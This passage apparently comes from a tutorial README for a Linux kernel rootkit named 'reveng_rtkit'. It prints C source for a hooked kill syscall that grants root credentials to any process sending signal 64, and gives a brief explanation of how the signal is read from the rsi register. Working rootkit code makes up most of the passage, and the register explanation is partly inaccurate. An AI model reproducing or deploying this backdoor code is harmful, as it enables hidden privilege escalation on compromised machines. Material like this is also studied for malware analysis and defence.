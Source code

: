 ```c
                    commit_creds(root);
                  }


                  static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
                  {
                    int sig = (int) pt_regs->si;

                    switch (sig)
                    {
                      case GET_ROOT:
                            printk(KERN_INFO "[*] reveng_rtkit: From rootkit with love :)\t-> Offering root shell!!");
                            /*
                                  In someway system() function alike kernel function present in linux kernel programming
                                  is required. in order to execute bash/sh shell then grant root shell as fish shell (in my
                                  case) was alloted a root shell, but bash/sh shell did the job.
                            */
                            set_root();
                            break;
                      default:
                            return orig_kill(pt_regs);
                    }
                    return 0;
                  }
```
   If you visit [<ins>Linux Syscall Reference</ins>](https://syscalls64.paolostivanin.com/), and search for _sys_kill_ you can see that it depends on 3 registers, **rax** (which contains the syscall id), **rdi** (which contians the file descriptor) and **rsi** (which is the location, where the passed arguments is to be stored). 
                  
   So here, we are only concerned about **rsi** register as we are interested in the arguments that are passed. We can see that we indeed need `int sig` to be placed in ***si*** register.

   So, that means:
```c
                  #define GET_ROOT 64

                  static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
                  {
                    int sig = (int) pt_regs->si;

                    switch (sig)
                    {
                      case GET_ROOT:
                            printk(KERN_INFO "[*] reveng_rtkit: From rootkit with love :)\t-> Offering root shell!!");
                            /*
                                  In someway system() function alike kernel function present in linux kernel programming
                                  is required. in order to execute bash/sh shell then grant root shell as fish shell (in my
                                  case) was alloted a root shell, but bash/sh shell did the job.
                            */
                            set_root();
                            break;
                      default:
                            return orig_kill(pt_regs);
                    }
                    return 0;
                  }
```